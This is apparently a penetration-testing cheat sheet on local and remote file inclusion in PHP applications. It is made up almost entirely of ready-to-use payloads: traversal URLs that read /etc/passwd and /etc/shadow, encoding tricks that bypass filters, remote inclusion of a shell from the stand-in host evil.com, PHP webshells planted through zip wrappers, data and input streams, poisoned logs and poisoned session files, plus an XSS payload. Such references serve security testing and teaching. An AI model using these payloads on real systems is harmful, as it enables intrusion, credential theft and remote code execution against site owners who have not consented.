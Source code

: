 # Local/Remote File Inclusion
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application.

Interesting files to check out :
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

## Basic LFI
```
http://example.com/index.php?page=../../../etc/passwd

Null byte
http://example.com/index.php?page=../../../etc/passwd%00

Double encoding
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

Path truncation
http://example.com/index.php?page=../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=../../../../[…]../../../../../etc/passwd

Filter bypass
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
```

## Basic RFI (null byte, double encoding and other tricks)
```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

## LFI / RFI Wrappers

LFI Wrapper rot13 and base64 - php://filter case insensitive
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

can be chained with a compression wrapper
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```


LFI Wrapper ZIP
```python
echo "</pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
rm payload.php   

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```


RFI Wrapper DATA with "<?php system($_GET['cmd']);echo 'Shell done !'; ?>" payload
```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

RFI Wrapper EXPECT
```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

Bonus XSS    
XSS via RFI/LFI with "<svg onload=alert(1)>" payload
```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

## LFI to RCE via /proc/*/fd
1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD
with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)
/proc/self/environ can also be used


## LFI to RCE via Upload
```
http://example.com/index.php?page=path/to/uploaded/file.png
```
You can injected the <?php system($_GET['c']); ?> into the metadata

## LFI to RCE via Phpinfo()
https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf
Use the script phpInfoLFI.py (also available at https://www.insomniasec.com/downloads/publications/phpinfolfi.py)


## LFI to RCE via input:// stream
Specify your payload in the POST parameters
```
http://example.com/index.php?page=php://input
POST DATA: <? system('id'); ?>
```

## LFI to RCE via controlled log file
Just append your PHP code into the log file and include it.
```
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```

## LFI to RCE via PHP Sessions
Check if the website use PHP Session (PHPSESSID)
```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```
In PHP these sessions are stored into /var/lib/php5/sess_[PHPSESSID] files
```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```
Set the cookie to <?php system('cat /etc/passwd');?>
```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```
Use the LFI to include the PHP session file
```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```


## Checklist - Common ways of upgrading from LFI to RCE
```
Using file upload forms/functions
Using the PHP wrapper expect://command
Using the PHP wrapper php://file
Using the PHP wrapper php://filter
Using PHP input:// stream
Using data://text/plain;base64,command
Using /proc/self/environ
Using /proc/self/fd
Using PHP Session
Using log files with controllable input like:
  /var/log/apache/access.log
  /var/log/apache/error.log
  /var/log/vsftpd.log
  /var/log/sshd.log
  /var/log/mail
```

## Thanks to
* [OWASP LFI](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
* [HighOn.coffee LFI Cheat](https://highon.coffee/blog/lfi-cheat-sheet/)
* [Turning LFI to RFI ](https://l.avala.mp/?p=241)
* [Is PHP vulnerable and under what conditions?](http://0x191unauthorized.blogspot.fr/2015/04/is-php-vulnerable-and-under-what.html)
* [Upgrade from LFI to RCE via PHP Sessions](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/)
* [Local file inclusion tricks](http://devels-playground.blogspot.fr/2007/08/local-file-inclusion-tricks.html)
